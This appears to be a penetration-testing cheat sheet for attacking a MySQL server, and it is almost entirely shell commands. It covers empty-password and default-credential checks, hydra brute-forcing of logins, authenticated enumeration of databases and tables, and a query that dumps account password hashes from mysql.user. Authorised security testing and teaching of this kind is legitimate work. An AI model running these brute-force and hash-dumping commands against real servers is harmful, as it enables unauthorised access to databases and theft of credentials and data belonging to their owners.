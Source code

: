 2) Quick weak-cred checks
```bash
# Empty password check (scripted)
nmap -p $PORT --script mysql-empty-password -oN nmap_mysql_empty_pw.txt $IP

# Try common defaults interactively if allowed remotely
# (Note: many servers restrict root to localhost)
mysql -h $IP -P $PORT -u root -p
# Try: empty password, 'root', 'password', 'admin'
```

3) Targeted brute-force (keep it gentle)
```bash
# Small username list and small password list recommended
# -t to limit threads, -f stop after first hit, -I ignore errors on flaky services
hydra -L users.txt -P passwords.txt -s $PORT -t 4 -I -f -o hydra_mysql.txt $IP mysql

# Quick single-user attempt (e.g., root)
# hydra -l root -P /path/to/wordlist -s $PORT -t 4 -I -f -o hydra_mysql_root.txt $IP mysql
```

4) Authenticated enumeration
```bash
# Set discovered credentials
export U='user'
export P='pass'

# Basic environment and instance info
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT USER(),CURRENT_USER(),@@hostname,@@version,@@version_comment,@@datadir;'

# Server variables snapshot (handy for secure_file_priv and paths)
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW VARIABLES WHERE Variable_name IN ("basedir","datadir","plugin_dir","secure_file_priv","version","version_comment");'

# Check privileges for the current account
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW GRANTS FOR CURRENT_USER();'

# List databases
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW DATABASES;'

# Enumerate tables in a target DB
export DB='target_db'
mysql -h $IP -P $PORT -u "$U" -p"$P" -D "$DB" -e 'SHOW TABLES;'

# Describe a table and preview data
export TBL='users'
mysql -h $IP -P $PORT -u "$U" -p"$P" -D "$DB" -e "DESCRIBE \`$TBL\`;"
mysql -h $IP -P $PORT -u "$U" -p"$P" -D "$DB" -e "SELECT * FROM \`$TBL\` LIMIT 10;"
```

5) User/account insights (requires sufficient privileges)
```bash
# MySQL/MariaDB user accounts and auth info
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT user,host,plugin,authentication_string FROM mysql.user;'
```
